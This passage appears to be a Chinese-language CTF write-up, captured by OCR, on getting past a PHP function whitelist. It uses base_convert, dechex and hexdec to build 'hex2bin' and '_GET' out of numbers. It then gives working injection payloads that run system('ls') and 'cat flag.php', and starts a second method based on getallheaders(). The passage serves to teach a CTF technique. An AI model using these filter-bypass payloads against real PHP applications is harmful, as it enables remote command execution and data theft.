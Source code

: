 ````
* `bin2hex()` 函数讲 ASCII 字符转换为十六进制值，字符串可通过 pack() 或者 hex2bin()  函数转换回去。

* `hex2bin()` 函数把十六进制值得字符转换为 ASCII 字符。

那么我们就可以想象一下，把`_GET` 先利用 `bin1hex()` 转换为 十六进制，在利用 `hexdec()` 转换为十进制，那么反过来就可以把 一段数字转换为字符。

但是 `binhex()  hexdec()` 等不是白名单的函数，要从哪里来？

这时候就要看 `base_convert()` 得作用了，因为上面的函数都是小写的，所以可以利用此函数将一个十进制数的数字转为十六进制的小写字符。

那么怎么才能直到这个数呢？我们可以先逆向将十六进制字符转换为十进制数，得到该数字，最终逆向构造即可。

```php
echo base_convert('hex2bin',36,10);
# 得到  37907361743

echo base_convert(37907361743,10,36);
# 反过来就可以得到  hex2bin
```

在将 `_GET` 反向构造出来： 

```php
echo bin2hex('_GET');
# 得到 5f474554 将字符转换为十六进制
echo hexdec('5f474554');
# 得到 1598506324 将十六进制转为十进制。


echo dechex(1598506324);
echo hex2bin('5f474554');
# 逆向最终得到 _GET
```

白名单中有 `dechex()` 、`hexdec()` 函数，但是没有 `hex2bin()` 、 `bin2hex()` 函数，但是我们可以使用 `base_convert()` 函数构造任意小写函数。

串起来构造 

```php
echo base_convert(37907361743,10,36)dechex(1598506324)
```

可以用 `{}` 代替 `[]`构造

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=ls
# 得到 _GETflag.php index.php 
    
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=cat flag.php
# 得到 flag	
```

**方法2**

可以构造 `getallheaders()` 传参，此是小写的，可以直接用`base_convert` 转换。

狗早：

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```

分析：
````